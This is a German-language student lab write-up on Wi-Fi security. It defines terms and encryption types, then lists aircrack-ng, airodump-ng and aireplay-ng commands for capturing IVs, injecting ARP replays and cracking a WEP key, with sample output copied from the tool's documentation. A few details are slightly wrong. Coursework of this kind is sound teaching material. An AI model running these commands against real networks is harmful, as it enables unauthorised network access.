 # Wifi security

## Terminologie

- BSSID: Basic Service Set Identifier

> Identifiziert einen Router / AP eindeutig in einem Funknetz

- SSID: Service Set Identifier

> Identifiziert ein Funknetz (also der Name des WLAN-Netzwerks)

- Channel

> Frequenzband auf dem das WLAN-Netzwerk sendet (Funkkanal - meistens wird in 2.4 und 5 GHz unterschieden)

- Beacons

> Pakete, die von einem Router / AP gesendet werden, um sich im Netzwerk zu identifizieren bzw. die Anwesenheit bekannt
> zu geben. Solche Beacons werden benötigt, damit ein Smartphone ein WLAN Netzwerk finden kann.

- Encryption
> Verschlüsselung des Netzwerkverkehrs, um diesen vor unbefugtem Zugriff zu schützen (Klartext -> Random Zeichen)

- Cipher
> Verschlüsselungsalgorithmus, der verwendet wird, um den Netzwerkverkehr zu verschlüsseln

- Authentication
> Authentifizierung des Clients gegenüber dem Router / AP, um Zugriff auf das Netzwerk zu erhalten (Client ist befugt)

- Empfangsstärke (dBm)
> Signalstärke des WLAN-Signals, die in Dezibel Milliwatt gemessen wird


## Verschlüsselungen

- Wired Equivalent Privacy (WEP)
> 64 und 128 bit Verschlüsselung des Netzwerkverkehrs, wobei jedoch statische Schlüssel verwendet werden, die leicht
  zu
> knacken sind.
- Wi-Fi Protected Access (WPA)
> Jedes Paket wird mit einem eigenen Schlüssel verschlüsselt, sowie Integritätschecks durchgeführt - um einen "eigens erstellten" bzw. veränderten Schlüssel zu identifizieren.
- Wi-Fi Protected Access II (WPA2)
> Basiert auf AES (Advanced Encryption Standard) und hat somit einen solideren Verschlüsselungsalgorithmus, sowie zwei Modi: Personal und Enterprise, wobei entweder PSKS (Passwörter) oder Authentication Server (z.B. RADIUS) verwendet werden können.
- Wi-Fi Protected Access III (WPA3)
> Basiert auf Simultaneous Authentication of Equals (SAE) mit GMC Verschlüsselung und ersetzt WPA2, sowie längere Schlüssel und Schutz vor Brute-Force Attacken

## Informationen über Netzwerke ohne Zugang sammelnx
- Generelle Informationen aus Beacon Frames auslesen: SSID, BSSID, Channel, Signalstärke, Verschlüsselung, etc.

## Angriff

### Interface vorbereiten
- Interfaces wurden mit `iwconfig` gelisted und das WLAN-Interface somit gefunden
- Da noch nicht im Monitor, wurde der Adapter mit folgendem Befehl gestartet: `airmon-ng start wlan0mon 10` (hier einfach mal Kanal 10 verwendet)

### Beacon-Informationen auslesen
- Auslesen der Informationen (BSSID; Channel) mit folgendem Befehl: `airodump-ng wlan0mon`
![](images/device-overview.jpeg)
### Auslesen und speichern der Initialisierungsvektoren (IVS)
- Mit folgendem Befehl werden die IVS gespeichert: ` airodump-ng -c 10 --bssid [BSSID des anzugreifenden Routers] -w output wlan0mon`
- Eine Fake Authentication mit folgendem Befehl funktioniert auch:  `aireplay-ng -1 0 -e "WIFI Network (die SSID des zu knackenden Netzwerks)" -a  [BSSID des anzugreifenden Routers] -h  [MAC Adresse der Netzwerkkarte] wlan0mon`
![](images/authentication-success.jpeg)
- Durch einen ARP Replay können weitere ARPs ins Netzwerk gegeben werden: `aireplay-ng -3 -b  [BSSID des anzugreifenden Routers] -h [MAC Adresse der Netzwerkkarte] wlan0mon`
### Knacken des Keys:
- Der Key kann mit folgendem Befehl ausgelesen werden:  `aircrack-ng -b [BSSID des anzugreifenden Routers] (dateiname).cap`



(Copy pasta von https://www.aircrack-ng.org/doku.php?id=simple_wep_crack, da der PC *vor* dem Screenshot ausgemacht wurde)
```

                                              Aircrack-ng 0.9
 
 
                              [00:03:06] Tested 674449 keys (got 894 IVs)
 
 KB    depth   byte(vote)
  0    0/  9   12(  15) F9(  15) 47(  12) F7(  12) FE(  12) 1B(   5) 77(   5) A5(   3) F6(   3) 03(   0) 
  1    0/  8   34(  61) E8(  27) E0(  24) 06(  18) 3B(  16) 4E(  15) E1(  15) 2D(  13) 89(  12) E4(  12) 
  2    0/  2   56(  87) A6(  63) 15(  17) 02(  15) 6B(  15) E0(  15) AB(  13) 0E(  10) 17(  10) 27(  10) 
  3    1/  5   78(  43) 1A(  20) 9B(  20) 4B(  17) 4A(  16) 2B(  15) 4D(  15) 58(  15) 6A(  15) 7C(  15)
```



> Dieser Schritt konnte nicht ausgeführt werden, da aufgrund technischer Probleme kein Traffic im Router generiert werden konnte, und somit keine IVs ausgelesen wurden (ca 400-800, viel zu wenig). Die Tutoren sagten, dass die Abgabe aber trotzdem zulässig sei.